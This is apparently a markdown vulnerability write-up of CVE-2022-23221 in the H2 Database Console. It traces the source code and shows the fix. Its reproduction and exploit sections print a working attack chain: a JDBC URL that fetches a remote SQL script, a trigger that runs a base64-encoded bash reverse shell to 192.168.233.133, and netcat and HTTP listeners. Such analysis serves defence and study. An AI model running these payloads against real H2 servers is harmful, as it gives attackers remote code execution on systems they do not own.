


# CVE-2022-23221 CWE-88 H2 Database Console RCE

## Vulnerability Background
- **H2 Database**: An open-source, lightweight relational database management system (RDBMS) written in Java, suitable for Java application development and testing, capable of quickly delivering lightweight data storage solutions and functioning in embedded environments and small-scale applications.
- **H2 Database Console**: A web-based database management tool for H2 database engines. It offers a user-friendly interface that allows users to perform SQL queries, manage database objects, and perform various administrative tasks. The H2 database engine is a purely Java-based, open-source, lightweight relational database management system.
- **JNDI (Java Naming and Directory Interface)**: A Java API that provides an interface for accessing various resources, such as database services, remote Java objects, and more. JNDI injection refers to an attacker controlling parameters found by JNDI, causing applications to load and execute remote objects specified by the attacker, thereby enabling remote code execution.
- **Java's reflection mechanism**: The ability to dynamically obtain class information and manipulate objects at runtime. Through reflection, programs can load, explore, and use classes at runtime without needing to determine their types at compile time. This mechanism greatly enhances Java's flexibility and scalability.

## Vulnerability Mechanism
H2 Database Console provides a web-based management interface for managing H2 databases. Under certain configurations, this console can be accessed by external users without any authentication. Attackers can use this console to execute arbitrary SQL scripts to control the database server, execute system commands, or carry out other malicious operations.

The cause of the vulnerability is improper configuration of the H2 Database Console. In Spirng development, if we set the following options, external users can access the web management page without authentication:

```java
spring.h2.console.enabled=true  //Enable the H2 console
spring.h2.console.settings.web-allow-others=true //Allows other users (non-localhost users) to access the web console. This makes the console open to anyone within the local area network
```

By leveraging the Java code execution capabilities of the console, attackers can construct SQL statements or triggers to call methods like  `Runtime.exec()`  to execute arbitrary system commands. For example, attackers can insert malicious triggers and use Java's reflection mechanism to execute external commands.

## Vulnerability Location
The vulnerability appeared in line  `getConnection`  of line 772** in the management interface URL input **/h2-2022-01-04/h2/src/main/org/h2/server/web/WebServer.java** file. If the database URL points to an H2 database (starting with jdbc:h2:), execute the following logic: check whether the global flag allowSecureCreation matches the incoming userKey. If the condition is not met and ifExists is true: add the parameter FORBID_CREATION=TRUE to the URL to prevent automatic database creation.

```java
Connection getConnection(String driver, String databaseUrl, String user,
        String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
    driver = driver.trim();
    databaseUrl = databaseUrl.trim();
    if (databaseUrl.startsWith("jdbc:h2:")) {
        if (!allowSecureCreation || key == null || !key.equals(userKey)) {
            if (ifExists) {
                databaseUrl += ";FORBID_CREATION=TRUE";
            }
        }
    }
    // do not trim the password, otherwise an
    // encrypted H2 database with empty user password doesn't work
    return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo);
}
```

When external users are allowed to access the Web management page,  `key`  is set to  `null` ,  `allowSecureCreation`  settings are ignored, and  `ifExists`  is not defined in the input parameters; the default value of the WebServer class is used, usually true. The code originally intended that to prevent the incoming  `payload`  from being included in statements to prevent database creation, the  `allowSecureCreation`  must be set to  `true` ; otherwise, statements will be added to prevent database creation.

However, when you specify  `FORBID_CREATION=FALSE`  parameters directly in the JDBC URL, this parameter overrides the security check logic in the  `WebServer`  class, because **parameters in the JDBC URL have the highest priority**. This means that regardless of the settings in the  `WebServer`  class, even if the  `ifExists`  is  `true` , the  `FORBID_CREATION=FALSE`  parameter will override this setting, allowing the creation of a new database.

Therefore, as long as the H2 Database Console is configured to allow other users to access the web console, anyone can enter payload on the console to create malicious database scripts.

## Affected Versions
H2 Database < 2.1.210

## Environment Setup
1. Start the Docker environment; h2db version is 2.0.206.



2. Access  `/h2-console`  to access the H2 database management interface.


## Vulnerability Reproduction
1. Enter the poc code in the JDBC URL and find it can be accessed directly.

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```




2. Base the pyload for Base64 encoding: bounce the shell back to the attacker's port 6666.

```shell
bash -i >& /dev/tcp/192.168.233.133/6666 0>&1
```


3. Use the obtained encoding to create database file :h2database.sql

```sql
CREATE TABLE test(
     id INT NOT NULL
 );
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMzMvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}");';
```

4. Construct the payload. Open the terminal in the folder where the h2database.sql is, obtain h2database.sql malicious files through port 80 on the attack machine, click  `test connection` , and listen for port 80 on the attack machine using  `python3 -m http.server 80`  commands. You will see the request succeeded.

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://192.168.233.133:80/h2database.sql';\ 
```


5. Use the command  `nc -lvnp 6666`  to listen on port 6666 on the attack machine, and you will see the shell bounce successfully 


## PoC Analysis

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```

When using this connection string, the H2 database checks whether an in-memory database named  `test1`  exists. If it does not exist, because of  `FORBID_CREATION=FALSE` , it creates a new in-memory database. Then you can successfully connect to the database and perform operations.

1.  `FORBID_CREATION=FALSE` : This parameter allows database creation when connecting. If the database does not exist and this parameter is set to  `FALSE` , the H2 database will create a new in-memory database  `test1` . If set to  `TRUE` , the connection will fail if the database does not exist.
2.  `IGNORE_UNKNOWN_SETTINGS=TRUE` : This parameter allows the H2 database to ignore unknown settings, preventing connection failures due to unfamiliar settings. Ensure that even if the URL contains parameters that the H2 database does not recognize or support, the database connection can still be successfully established.
3.  `FORBID_CREATION=FALSE`  (Repeat): This parameter again declares permission to create a database. Although duplicate parameters do not cause problems in this case, usually only need to be set once.

## Exploit Analysis
Create a table named test containing an integer field named id, and this field must not be empty

```sql
CREATE TABLE test(
     id INT NOT NULL
 );
```

Create a trigger TRIG_JS that is triggered before each insertion of data into the test table

```sql
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS 
```

Calling Java's reflection mechanism via JavaScript and calling the Runtime.exec() method to execute a system command

```javascript
'//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,Base64 Encoded string}|{base64,-d}|{bash,-i}");';
```

1.  `Java.type("java.lang.Runtime").getRuntime()` : Obtain the Java runtime object and allow system commands to be executed.
2.  `bash -c` : Indicates executing subsequent commands using the Bash interpreter.
3.  `|{base64,-d}` : Decode the Base64-encoded string.
4.  `|{bash,-i}` : Uses the decoded result as input to the interactive Bash shell.

## Vulnerability Trace
### Tracking Initialization Settings

1. An HTML file  `h2-2022-01-04\h2\docs\html\advanced.html`  the official H2 database documentation, containing advanced usage tips and configuration information for the H2 database. At line 1425, remote access can be enabled via the command line option, where  `-webAllowOthers`  option is: allow other computers to connect to the H2 database via the web interface.

```html
 <h2 id="remote_access"> Protection against Remote Access </h2> 
 <p> 
By default this database does not allow connections from other machines when starting the H2 Console,
the TCP server, or the PG server. Remote access can be enabled using the command line
options  <code> -webAllowOthers, -tcpAllowOthers, -pgAllowOthers </code> .
 </p> 
```

2. In the Docker folder where we set up the environment, we modified the original startup script h2.sh of H2 and replaced the  `org.h2.tools.Console`  tool with the  `org.h2.tools.Server`  tool. The former is used to set up command-line tools that interact directly with the database; The latter is used to start and manage tools for H2 database servers, including TCP and web servers, while adding parameters  `-webAllowOthers`  allowing other computers to connect to the H2 Console. These parameters are passed to  `org.h2.tools.Server` 's  `main`  method, focusing on  `-web`  related parameters here.

```sh
# Allows external access to the web console and database
java \
   ${JAVA_OPTIONS} \
   -cp /var/lib/h2/h2.jar \
   org.h2.tools.Server \
   -web -webDaemon -webAllowOthers -webPort 8082 \
   -tcp -tcpAllowOthers -tcpPort 9082 \
   -baseDir /usr/lib/h2 \
   ${H2_OPTIONS}
```

3、 In the source code, locate to  \h 2-2022-01-04 \h 2 \src  \main  \org  \h 2 \tools  \Server .java, and the location is in In  `Server`  class  `main`  methods, all command-line arguments are passed to  `runTool`  methods.

```Java
//Server.java
public static void main(String... args) throws SQLException {
    new Server().runTool(args);
}
```

4. Locate to the  `runTool`  method. In the  `runTool`  method, decide whether to start a TCP server, web server, etc. based on the incoming parameters, and use the  `createWebServer`  method to create the corresponding  `Server`  object

```java
//Server.java
public void runTool(String... args) throws SQLException {
    // ...  ...
    else if (arg.startsWith("-web")) {
        if ("-web".equals(arg)) {
            startDefaultServers = false;
            webStart = true;
        } else if ("-webAllowOthers".equals(arg)) {
            // no parameters
        } 
	// ...  ...
    if (webStart) {
        web = createWebServer(args);
        web.start();
        // ...  ...
    }
    if (webStart) {
        web = createWebServer(args);
        web.start();
        // ...  ...
    }
    // ...  ...
}
```

5. Locate to  `createWebServer`  method. There are two  `createWebServer`  methods depending on the parameters passed. Based on previous analysis, we only passed parameter  `arg`  and called the first  `createWebServer`  method. The return value of the first method only adds two parameters to the input parameters, then the second method is called. Simply put, the first method initializes the parameters and then calls the second method. In the second  `createWebServer`  method, create an instance of  `WebServer`  and use this instance to create an  `Server`  object. However, as long as we set  `-webAllowOthers`  parameters, the value of  `allowSecureCreation`  is always  `false` .

```java
//Server.java
public static Server createWebServer(String... args) throws SQLException {
    return createWebServer(args, null, false);
}

static Server createWebServer(String[] args, String key, boolean allowSecureCreation) throws SQLException {
    WebServer service = new WebServer();
    service.setKey(key);
    service.setAllowSecureCreation(allowSecureCreation);
    Server server = new Server(service, args);
    service.setShutdownHandler(server);
    return server;
}
```

### Tracking web interface input

1. Locate to the management interface URL input point, file path:  `/h2-2022-01-04/h2/src/main/org/h2/server/web/WebServer.java` ,  `getConnection`  affected function. If the database URL points to an H2 database (starting with jdbc:h2), execute the following logic: check whether the global flag allowSecureCreation matches the userKey passed. If the condition is not met and ifExists is true: add the parameter FORBID_CREATION=TRUE to the URL to prevent automatic database creation.
To prevent incoming  `payload`  from being added to statements to prevent database creation, the  `allowSecureCreation`  must be made  `true` .

```java
//WebServer.java
/**
     * Open a database connection.
     *
     * @param driver the driver class name
     * @param databaseUrl the database URL
     * @param user the user name
     * @param password the password
     * @param userKey the key of privileged user
     * @param networkConnectionInfo the network connection information
     * @return the database connection
     */
    Connection getConnection(String driver, String databaseUrl, String user,
            String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
        driver = driver.trim();
        databaseUrl = databaseUrl.trim();
        if (databaseUrl.startsWith("jdbc:h2:")) {
            if (!allowSecureCreation || key == null || !key.equals(userKey)) {
                if (ifExists) {
                    databaseUrl += ";FORBID_CREATION=TRUE";
                }
            }
        }
        // do not trim the password, otherwise an
        // encrypted H2 database with empty user password doesn't work
        return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo);
    }
```

2. Locate to the  `allowSecureCreation`  defined position. If  `allowOthers`  is  `false` , then  `key`  and  `allowSecureCreation`  will be set to the values passed in the method parameter. This means that the values of  `key`  and  `allowSecureCreation`  will only be updated when the server does not allow other computers to connect.

```java
//WebServer.java
public void setKey(String key) {
    if (!allowOthers) {
        this.key = key;
    }
}

public void setAllowSecureCreation(boolean allowSecureCreation) {
    if (!allowOthers) {
        this.allowSecureCreation = allowSecureCreation;
    }
}
```

3. Locate to the  `allowOthers`  defined position. In the 307-line  `init`  method, if the command line argument contains  `-webAllowOthers` ,  `allowOthers`  will be set to  `true`  (329 lines). So when we initialize startup, we set  `allowOthers`  to  `true` , and  `key`  to  `null`  (365 lines). According to step 2, the value of  `allowSecureCreation`  will be ignored

```java
//WebServer.java
public void init(String... args) {
    // set the serverPropertiesDir, because it's used in loadProperties()
    for (int i = 0; args != null && i < args.length; i++) {
        if ("-properties".equals(args[i])) {
            serverPropertiesDir = args[++i];
        }
    }
    Properties prop = loadProperties();
    port = SortedProperties.getIntProperty(prop,
            "webPort", Constants.DEFAULT_HTTP_PORT);
    ssl = SortedProperties.getBooleanProperty(prop,
            "webSSL", false);
    allowOthers = SortedProperties.getBooleanProperty(prop,
            "webAllowOthers", false);
 //... ...
    if (allowOthers) {
            key = null;
        }
    //... ...
```

5. Return to the condition in step one: when  `allowOthers`  is  `true` ,  `key`  becomes  `null` , the setting for  `allowSecureCreation`  is ignored, and  `ifExists`  is not defined in the input parameters and will be used The default value of the WebServer class, usually true, means that if the database already exists, it will not be created.

## Remediation
Upgrade H2 to 2.1.210 or later. Keep the H2 Console bound to localhost or a trusted management network and do not permit untrusted users to choose arbitrary JDBC URLs or connection properties.

During the repair, the judgment statement was deleted, and the condition was directly added to the returned function parameters, preventing improper configuration

```java
Connection getConnection(String driver, String databaseUrl, String user,
        String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
    driver = driver.trim();
    databaseUrl = databaseUrl.trim();

    // do not trim the password, otherwise an
    // encrypted H2 database with empty user password doesn't work
    return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo,
                ifExists && (!allowSecureCreation || key == null || !key.equals(userKey)));
}
```

## References
[ Vulnerability Reproduction ](https://avoid.overfit.cn/post/1ee9bb170efa4d0193892ba2b7e00633 )

[ Vulnerability Location ](https://seclists.org/fulldisclosure/2022/Jan/39 )

[ Add -webExternalNames setting and fix WebServer.getConnection() by katzyn · Pull Request #3377 · h2database/h2database ](https://github.com/h2database/h2database/pull/3377/commits/eb75633d0dfa86341e6ef77a861665c4a0f16ab8 )

[ Source Code Analysis ](https://www.jianshu.com/p/3213a7787c42 )

[ Bug Fix ](https://github.com/h2database/h2database/pull/3377/commits/eb75633d0dfa86341e6ef77a861665c4a0f16ab8 )
